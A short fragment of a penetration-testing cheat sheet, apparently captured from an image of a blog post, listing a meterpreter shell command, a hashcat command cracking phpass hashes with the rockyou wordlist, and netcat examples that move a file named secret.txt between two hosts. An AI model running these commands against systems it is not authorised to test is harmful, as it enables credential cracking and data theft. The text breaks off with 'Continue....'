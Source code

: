 meterpreter > shell

# Hashcat password cracking

hashcat -m 400 -a 0 hash /root/rockyou.txt

# Netcat examples

c:> nc -l -p 31337

#nc 192.168.0.10 31337

c:> nc -v -w 30 -p 31337 -l < secret.txt

#nc -v -w 2 192.168.0.10 31337 > secret.txt

Continue.... 

Source: https://jivoi.github.io/2015/07/01/pentest-tips-and-tricks/
